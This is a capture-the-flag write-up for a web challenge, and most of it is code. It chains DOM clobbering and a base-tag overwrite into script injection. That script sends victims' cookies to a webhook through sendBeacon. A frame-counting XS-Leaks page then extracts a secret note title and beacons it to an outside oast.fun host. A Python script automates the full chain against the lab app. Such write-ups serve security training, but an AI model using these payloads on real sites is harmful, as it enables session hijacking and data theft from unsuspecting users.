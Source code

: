 # The Leaky Eye Luca

> Dom Cloberring, XSS via base path overwrite, XS Leaks via Frame Counting

## Dom Cloberring

Looking at usuarioNoteDetail.html
```js
try{
    if(window.isClean.isSafe.isSanitized) {
        successScript.src = "./js/success.js";
        successScript.onload = () => report();
    }
}catch{
    successScript.src = "/js/success.js";
    successScript.onload = () => report();
}
```

we can clobber isClean, isSafe, and isSanitized using DOM clobberring technique:
```html
<iframe name=isClean srcdoc="<a id=isSafe name=isSafe><a id=isSafe name=isSanitized href=controlled>"></iframe>
```

## XSS
The reason to clobber those variable is because we want to make the success script importing using **./js/success.js**. which is importing script in via relative path, if we can overwrite this, then we can import the script from anywhere, we can use **<base>** tag to do this:

```html
<base href='https://webhook/'>
```

serve any js file with report function, we can use it to leak cookies:
```js
function report(){
    navigator.sendBeacon("https://webhook", `cookies=${document.cookie}`)
}
```

combine the payload, we can utilize it to privesc to secretaria by looking it's cookie

## XS Leaks using Frame Counting Attack
Take a look at preseidenteNote.html and checkSecretariaNote function in noteController.js
we can see this part:

preseidenteNote.html
```html
<div class="container">
        <div class="header">
            Presidente Note
        </div>
        <div class="content">
            <h1>Content from: {{ email }}</h1>
            <p>{{ content }}</p>
        </div>
        <div class="footer">
            &copy; 2025 Presidente Note. All rights reserved.
        </div>
        {% if "No Content Available" in content %}
            <div class="iframe-container">
                <!-- since you don't know the existing note, just give up and take a look at luca profiles -->
                <iframe src="https://villains.fandom.com/wiki/Leaky-Eye_Luca" frameborder="0"></iframe>
            </div>
        {% endif %}
    </div>
```
This html script will include an iframe if the content starts with "No Content Available".

checkSecretariaNote & getPresidenteNote & checkSecretariaNote route
```js
const checkSecretariaNote = async(req, res) => {
    const title = req.query.title || "";
    try{
        const user = await User.getByRole("ELPresidente");
        const note = await Note.getPresidenteNote(title, user.uuid);
        if (!note) {
            return res.status(200).render("presidenteNote",{email: "Nobody@mail.com", content: "No Content Available"});
        }
            return res.status(200).render("presidenteNote",{email: user.email, content: note.content});
    }catch(err){
        console.log(err);
        return res.status(500).json({message: "error"});
    }

}

Note.getPresidenteNote = async function (title, ownerUUID){
    try{
        const Note = await this.findOne({
            where: {
                title:{
                    [Op.startsWith]: title
                },
                owner: ownerUUID
            },
        });
        return Note
    }catch(err){
        throw err;
    }
}

router.get("/presidente/note", authMiddleware,  presidenteMiddleware,noteController.checkSecretariaNote);
```
Long short story, these 2 scripts will fetch the presidente note by user supplied "title" data in request query, it uses startsWith to filter the note.

as addition, if we look at the bot cookies settings:
```js
        await page.setCookie({
			name: 'passion_ticket',
			value: cookie,
			domain: new URL(APP_URL).hostname,
            httpOnly: (role === "Secretaria" ? false : true),
            sameSite: 'strict'
		});
```

the cookie use httpOnly flag for ELPresidente cookie which disallow attacker to exfiltrate the cookiee using document.cookie. So it's impossible to take the cookie and fetch the /presidente/note directly. Since the flag placed in the title, we can extract the title using [XS Leaks frame counting](https://xsleaks.dev/docs/attacks/frame-counting/) technique. If the frame length is 1, then the title is false, vice versa. Below is the index.html can be used to extract data:

```html
<script>
var webhook="https://qdiyqxfhpgectiqifhius4f88b183wnvt.oast.fun/";
var remote="http://noteapp:6969/presidente/note/?title=";
function log(stat, res){
    navigator.sendBeacon(webhook,`${stat}=${res}`);
}

function exploit(payload){
    return new Promise((resolve, reject) => {
        let win = window.open(remote+payload);
        setTimeout(() => {
            var len = win.length
            win.close()
            resolve(len)
        }, 50);
    })
}
(async() => {
    log("start", "true")
    let length = 1
    while(true){
        var ilen = await exploit("_".repeat(length));
        if(ilen == 1){
            log("flagLength", length);
            break;
        }
        else{
            length+=1;
        }
    }
    let chars = "-abcdefghijklmnopqrstuvwxyz1234567890"
    let flag = ""
    while(flag.length < length-1){
        for (const ch of chars){
            var ilen = await exploit(flag + ch + "_".repeat(length - flag.length - 2));
            if (ilen == 0){
                flag += ch;
                log("tempflag", flag)
                break;
            }
        }
    }
    log("flag",flag)
})()

</script>
```

and this is the automation script using python:
```py
import httpx
import re
import bs4

c = httpx.Client()
def register(user):
    r = c.post("http://localhost:6969/api/register", json={"email": user['email'], "password": user['password']})
    print(r.text)

def login(user):
    r = c.post("http://localhost:6969/api/login", json={"email": user['email'], "password": user['password']})
    cookie = r.headers['Set-Cookie']
    c.headers.update({"Cookie": cookie})
    print("[+] Got Cookie:", cookie)

def send_cloberring_payload(payload):
    r = c.post("http://localhost:6969/api/usuario/note", json={"title": payload['title'], "content": payload['content']})
    print(r.text)

def attack_secretaria():
    print("[+] Make Dom Cloberrring Note")
    r1 = c.get("http://localhost:6969/usuario/notes")
    soup = bs4.BeautifulSoup(r1.text, 'html.parser')
    links = soup.find_all("a", href=True)
    uuid_pattern = re.compile(r'/getnote/([0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12})', re.IGNORECASE)
    uuids = [match.group(1) for link in links if (match := uuid_pattern.search(link['href']))]
    print("[+] Found UUIDs:", uuids)
    r2 = c.get(f"http://localhost:6969/bot/visit/secretaria?note="+uuids[0])
    print(r2.text)
    secretaria_cookie = input("[+] Enter Secretaria Cookie (check your webhook): ")
    c.headers.update({"Cookie": "passion_ticket="+secretaria_cookie})
    print("[+] Got Secretaria Cookie:", secretaria_cookie)

def attack_XSLeak(url):
    print("[+] Attack presidente note using XSleaks")
    r = c.get("http://localhost:6969/bot/visit/presidente?url="+url)
    print(r.text)

user = {
    "email":"gendra@ara6.com",
    "password":"ashura"
}

payload = {
    "title":"<iframe name=isClean srcdoc=\"<a id=isSafe name=isSafe><a id=isSafe name=isSanitized href=controlled>\"></iframe><base href='https://webhook.site/60d05d93-724e-457d-8293-19696b837128/'>",
    "content":"aaaaaa"
}

xsleaks_payload_url = "http://webhook.site/99384707-000f-48aa-b0c1-f416f3a1becc"
register(user)
login(user)
send_cloberring_payload(payload)
attack_secretaria()
# exploit xsleaks frame counting, host the auto.html in a server, and change the url to your server :D
attack_XSLeak(xsleaks_payload_url)
```